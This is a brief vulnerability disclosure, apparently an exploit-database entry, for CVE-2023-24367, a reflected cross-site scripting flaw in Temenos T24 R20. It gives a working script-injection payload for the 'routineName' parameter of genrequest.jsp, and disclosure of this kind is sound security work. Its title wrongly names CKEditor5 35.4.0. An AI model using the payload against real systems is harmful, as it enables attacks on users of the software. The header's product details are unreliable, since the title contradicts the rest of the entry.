 ## Exploit Title: Cross Site Scripting in CKSource's CKEditor5 35.4.0
## Google Dork: N/A
## Exploit Author: Omar Jezi
## Vendor Homepage: [https://www.temenos.com/](https://www.temenos.com/)
## Version: R20
## CVE : CVE-2023-24367

T24 was discovered to contain a cross-site scripting (XSS) vulnerability via genrequest.jsp in "routineName" parameter

payload :

jsps/genrequest.jsp?routineName="><script>alert(1)</script>

![alt text](https://raw.githubusercontent.com/mrojz/T24/main/T24_XSS.png)
